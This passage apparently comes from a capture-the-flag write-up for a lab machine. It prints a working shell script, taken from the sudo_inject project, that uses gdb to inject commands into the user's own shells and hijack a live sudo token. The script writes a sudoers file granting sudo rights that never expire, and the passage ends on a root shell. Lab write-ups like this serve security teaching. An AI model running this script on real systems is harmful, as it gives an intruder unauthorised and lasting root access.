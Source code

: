 This means, that there is a process from our user with a valid `SUDO` token. Looking around the web, we can spot [this](https://github.com/nongiach/sudo_inject) project. We create a bash script file called `sudo.sh` in `/tmp` with the following contents. 

```bash
#!/bin/sh

# inject all shell belonging to the current user, our shell one :

# makes it so every terminal can sudo  
echo "Defaults !tty_tickets" > /tmp/payload
# makes it so sudo never times out
echo "Defaults timestamp_timeout=-1" >> /tmp/payload

for pid in $(pgrep '^(ash|ksh|csh|dash|bash|zsh|tcsh|sh)$' -u "$(id -u)" | grep -v "^$$\$")
do
        echo "Injecting process $pid -> "$(cat "/proc/$pid/comm")
	echo 'call system("echo | sudo -S cp /tmp/payload /etc/sudoers.d/win 2>&1")' \
		| gdb -q -n -p "$pid" >/dev/null 2>&1
done
rm /tmp/payload
sudo -i 
```

Then, we make it executable and we execute it.

```bash
chmod +x sudo.sh
./sudo.sh
```

> Note: If the script doesn't work first time it means that the SUDO token probably expired, wait 2 minutes for the CRON to execute again and re-try.

```bash
metabase@Apethanto:/tmp$ ./sudo.sh 

Injecting process 3146 -> bash
Injecting process 6843 -> bash
root@Apethanto:~# id
uid=0(root) gid=0(root) groups=0(root)
```

We can find the root flag at `/root/root.txt`. 